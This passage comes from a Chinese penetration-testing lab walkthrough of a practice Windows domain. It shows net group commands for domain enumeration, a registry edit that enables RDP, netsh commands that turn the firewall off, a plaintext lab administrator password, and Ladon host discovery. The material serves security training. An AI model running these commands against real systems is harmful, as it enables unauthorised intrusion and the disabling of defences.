 ![](26.png)

发现内网ip地址192.168.52.143和域god.org，查看域信息

```
net group /domain  #查看域内所有用户列表
net group “domain computers” /domain #查看域成员计算机列表
net group “domain admins” /domain #查看域管理员用户
```

![](27.png)

![](28.png)

本机计算机名字为STU1，另外还有两个域用户分别是DEV1、ROOT-TVI862UBEH、域控制用户为OWA

### 3.5 主机密码收集

获取系统用户名和密码

![](29.png)

### 3.6 远程桌面登录

远程开启3389端口并关闭防火墙

````
注册表开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f


关闭防火墙
netsh firewall set opmode disable   			#winsows server 2003 之前
netsh advfirewall set allprofiles state off 	#winsows server 2003 之后

````

![](30.png)

这个时候防火墙是开启，我们需要关闭防火墙，使用域用户god\administrator/hongrisec@2020成功登录这一台win7WEB主机

![](31.png)

## 0x04 内网信息收集

### 4.1 域信息收集

前面收集到的信息Win7计算机名字为STU1，另外还有两个域用户分别是DEV1、ROOT-TVI862UBEH、域控制用户为OWA

win7内网的IP地址为192.168.52.143

进一步开始收集，通过Ladon 192.168.52.0/24 OnlinePC探测域内存活主机
